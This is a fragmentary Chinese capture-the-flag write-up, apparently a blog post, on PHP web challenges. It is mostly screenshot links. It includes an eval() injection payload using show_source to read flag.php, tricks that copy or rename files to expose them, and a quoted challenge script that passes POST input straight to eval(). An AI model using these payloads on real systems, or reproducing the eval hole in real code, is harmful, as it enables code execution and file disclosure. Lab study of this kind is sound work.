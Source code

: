 ```
```

1.
![](https://img-blog.csdnimg.cn/20210213221831601.png#pic_center)
2.
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210213221845653.png#pic_center)
3.![](https://img-blog.csdnimg.cn/20210213222015742.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
4.![](https://img-blog.csdnimg.cn/20210213222026976.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
5.
![](https://img-blog.csdnimg.cn/20210213222037403.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
6.
![](https://img-blog.csdnimg.cn/20210213222046601.png#pic_center)
payload:
```
c=show_source('flag.php');
```

---
## web60
```
  //通过复制，重命名读取php文件内容（函数执行后，访问url/flag.txt）
       copy()
       rename()
  //用法：
       copy("flag.php","flag.txt");            
       rename("flag.php","flag.txt");  
```
---
## web66-70
”/“是根目录，”~“是家目录。

```bash
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
![](https://img-blog.csdnimg.cn/20210213222721977.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
扫描根目录`scandir`
